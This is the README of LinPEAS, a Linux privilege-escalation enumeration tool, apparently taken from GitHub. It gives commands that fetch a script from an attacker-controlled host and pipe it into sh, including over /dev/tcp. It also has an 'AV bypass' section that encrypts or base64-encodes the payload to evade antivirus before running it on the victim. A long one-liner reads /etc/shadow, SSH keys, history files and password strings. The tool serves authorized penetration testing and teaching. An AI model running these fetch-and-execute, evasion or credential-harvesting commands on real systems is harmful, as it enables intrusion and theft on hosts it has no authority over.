



LinPeas

# LinPEAS - Linux Privilege Escalation Awesome Script

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix* hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**.

## Quick Start

#From githubcurl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

#Local networksudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh#Without curlsudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
#Output to filelinpeas -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt #Read with colors

## AV bypass

#open-ssl encryptionopenssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc

sudo python -m SimpleHTTPServer 80 #Start HTTP servercurl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim#Base64 encodedbase64 -w0 linpeas.sh > lp.enc

sudo python -m SimpleHTTPServer 80 #Start HTTP servercurl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim

**Use the parameter `-a` to execute all these checks.**

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD and OpenBSD).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).

By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**.

By default linpeas takes around **2 mins** to complete, but It could take from **4 to 5 minutes** to execute all the checks using **-a** parameter *(Recommended option for CTFs)*:

- From less than 1 min to 2 mins to make almost all the checks
- Almost 1 min to search for possible passwords inside all the accesible files of the system
- 20s/user bruteforce with top2000 passwords *(need `-a`)* - Notice that this check is **super noisy**
- 1 min to monitor the processes in order to find very frequent cron jobs *(need `-a`)* - Notice that this check will need to **write** some info inside a file that will be deleted

**Other parameters:**

- **-a** (all checks) - This will **execute also the check of processes during 1 min, will search more possible hashes inside files, and brute-force each user using `su` with the top2000 passwords.**
- **-s** (superfast & stealth) - This will bypass some time consuming checks - **Stealth mode** (Nothing will be written to disk)

This script has **several lists** included inside of it to be able to **color the results** in order to highlight PE vector.

LinPEAS also **exports a new PATH** variable during the execution if common folders aren't present in the original PATH variable. It also **exports and unset** some environmental variables during the execution so no command executed during the session will be saved in the history file (you can avoid this actions using the parameter **-n**).

## Hosts Discovery and Port Scanning

With LinPEAS you can also **discover hosts automatically** using `fping`, `ping` and/or `nc`, and **scan ports** using `nc`.

LinPEAS will **automatically search for this binaries** in `$PATH` and let you know if any of them is available. In that case you can use LinPEAS to hosts dicovery and/or port scanning.

## Colors

Details

## One liner

Here you have an old linpe version script in one line, **just copy and paste it**;)

**The color filtering is not available in the one-liner** (the lists are too big)

This one-liner is deprecated (I am not going to update it more), but it could be useful in some cases so it will remain here:

The default file where all the data is recorded is: */tmp/linPE* (you can change it at the beginning of the script)

file="/tmp/linPE";RED='\033[0;31m';Y='\033[0;33m';B='\033[0;34m';NC='\033[0m';rm -rf $file;echo "File: $file";echo "[+]Gathering system information...";printf $B"[*] "$RED"BASIC SYSTEM INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Operative system\n"$NC >> $file;(cat /proc/version || uname -a ) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"PATH\n"$NC >> $file;echo $PATH 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Date\n"$NC >> $file;date 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo version\n"$NC >> $file;sudo -V 2>/dev/null| grep "Sudo ver" >> $file;echo "" >> $file;printf $Y"[+] "$RED"selinux enabled?\n"$NC >> $file;sestatus 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Useful software?\n"$NC >> $file;which nc ncat netcat wget curl ping gcc make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Capabilities\n"$NC >> $file;getcap -r / 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Environment\n"$NC >> $file;(set || env) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Top and cleaned proccesses\n"$NC >> $file;ps aux 2>/dev/null | grep -v "\[" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Binary processes permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Services\n"$NC >> $file;(/usr/sbin/service --status-all || /sbin/chkconfig --list || /bin/rc-status) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Different processes executed during 1 min (HTB)\n"$NC >> $file;if [ "`ps -e --format cmd`" ]; then for i in {1..121}; do ps -e --format cmd >> $file.tmp1; sleep 0.5; done; sort $file.tmp1 | uniq | grep -v "\[" | sed '/^.\{500\}./d' >> $file; rm $file.tmp1; fi;echo "" >> $file;printf $Y"[+] "$RED"Proccesses binary permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Scheduled tasks\n"$NC >> $file;crontab -l 2>/dev/null >> $file;ls -al /etc/cron* 2>/dev/null >> $file;cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root /var/spool/anacron 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Any sd* disk in /dev?\n"$NC >> $file;ls /dev 2>/dev/null | grep -i "sd" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Storage information\n"$NC >> $file;df -h 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Unmounted file-system?\n"$NC >> $file;cat /etc/fstab 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Printer?\n"$NC >> $file;lpstat -a 2>/dev/null >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering network information...";printf $B"[*] "$RED"NETWORK INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Hostname, hosts and DNS\n"$NC >> $file;cat /etc/hostname /etc/hosts /etc/resolv.conf 2>/dev/null | grep -v "^#" >> $file;dnsdomainname 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Networks and neightbours\n"$NC >> $file;cat /etc/networks 2>/dev/null >> $file;(ifconfig || ip a) 2>/dev/null >> $file;iptables -L 2>/dev/null >> $file;ip n 2>/dev/null >> $file;route -n 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Ports\n"$NC >> $file;(netstat -punta || ss -t; ss -u) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Can I sniff with tcpdump?\n"$NC >> $file;timeout 1 tcpdump >> $file 2>&1;echo "" >> $file;echo "" >> $file;echo "[+]Gathering users information...";printf $B"[*] "$RED"USERS INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Me\n"$NC >> $file;(id || (whoami && groups)) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l without password\n"$NC >> $file;echo '' | sudo -S -l -k 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Do I have PGP keys?\n"$NC >> $file;gpg --list-keys 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Superusers\n"$NC >> $file;awk -F: '($3 == "0") {print}' /etc/passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Login\n"$NC >> $file;w 2>/dev/null >> $file;last 2>/dev/null | tail >> $file;echo "" >> $file;printf $Y"[+] "$RED"Users with console\n"$NC >> $file;cat /etc/passwd 2>/dev/null | grep "sh$" >> $file;echo "" >> $file;printf $Y"[+] "$RED"All users\n"$NC >> $file;cat /etc/passwd 2>/dev/null | cut -d: -f1 >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering files information...";printf $B"[*] "$RED"INTERESTING FILES\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"SUID\n"$NC >> $file;find / -perm -4000 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"SGID\n"$NC >> $file;find / -perm -g=s -type f 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside \$HOME (limit 20)\n"$NC >> $file;ls -la $HOME 2>/dev/null | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"20 First files of /home\n"$NC >> $file;find /home -type f 2>/dev/null | column -t | grep -v -i "/"$USER | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside .ssh directory?\n"$NC >> $file;find /home /root -name .ssh 2>/dev/null -exec ls -laR {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"*sa_key* files\n"$NC >> $file;find / -type f -name "*sa_key*" -ls 2>/dev/null -exec ls -l {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"Mails?\n"$NC >> $file;ls -alh /var/mail/ /var/spool/mail/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"NFS exports?\n"$NC >> $file;cat /etc/exports 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Hashes inside /etc/passwd? Readable /etc/shadow or /etc/master.passwd?\n"$NC >> $file;grep -v '^[^:]*:[x]' /etc/passwd 2>/dev/null >> $file;cat /etc/shadow /etc/master.passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Readable /root?\n"$NC >> $file;ls -ahl /root/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Inside docker or lxc?\n"$NC >> $file;dockercontainer=`grep -i docker /proc/self/cgroup 2>/dev/null; find / -name "*dockerenv*" -exec ls -la {} \; 2>/dev/null`;lxccontainer=`grep -qa container=lxc /proc/1/environ 2>/dev/null`;if [ "$dockercontainer" ]; then echo "Looks like we're in a Docker container" >> $file; fi;if [ "$lxccontainer" ]; then echo "Looks like we're in a LXC container" >> $file; fi;echo "" >> $file;printf $Y"[+] "$RED"*_history, profile, bashrc, httpd.conf\n"$NC >> $file;find / -type f \( -name "*_history" -o -name "profile" -o -name "*bashrc" -o -name "httpd.conf" \) -exec ls -l {} \; 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"All hidden files (not in /sys/) (limit 100)\n"$NC >> $file;find / -type f -iname ".*" -ls 2>/dev/null | grep -v "/sys/" | head -n 100 >> $file;echo "" >> $file;printf $Y"[+] "$RED"What inside /tmp, /var/tmp, /var/backups\n"$NC >> $file;ls -a /tmp /var/tmp /var/backups 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Interesting writable Files\n"$NC >> $file;USER=`whoami`;HOME=/home/$USER;find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'| sort | uniq >> $file;for g in `groups`; do find / \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'; done >> $file;echo "" >> $file;printf $Y"[+] "$RED"Web files?(output limited)\n"$NC >> $file;ls -alhR /var/www/ 2>/dev/null | head >> $file;ls -alhR /srv/www/htdocs/ 2>/dev/null | head >> $file;ls -alhR /usr/local/www/apache22/data/ 2>/dev/null | head >> $file;ls -alhR /opt/lampp/htdocs/ 2>/dev/null | head >> $file;echo "" >> $file;printf $Y"[+] "$RED"Backup files?\n"$NC >> $file;find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*back*" -o -name "*bck*" \) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find IPs inside logs\n"$NC >> $file;grep -a -R -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' /var/log/ 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find 'password' or 'passw' string inside /home, /var/www, /var/log, /etc\n"$NC >> $file;grep -lRi "password\|passw" /home /var/www /var/log 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l (you need to puts the password and the result appear in console)\n"$NC >> $file;sudo -l;

## What does linpeas look for

Details

## Let's improve PEASS together

If you want to **add something** and have **any cool idea** related to this project, please let me know it in the **telegram group https://t.me/peass** or using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)** and we will update the master version.

## Please, if this tool has been useful for you consider to donate

## Looking for a useful Privilege Escalation Course?

Contact me and ask about the **Privilege Escalation Course** I am preparing for attackers and defenders (**100% technical**).

## TODO

- Add more checks
- Mantain updated the list of vulnerable SUID binaries
- Mantain updated all the blacklists used to color the output
- Support for MacOS

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues) or you can submit a pull request**.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)**.

**Linpeas** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

## License

MIT License
By Polop(TM)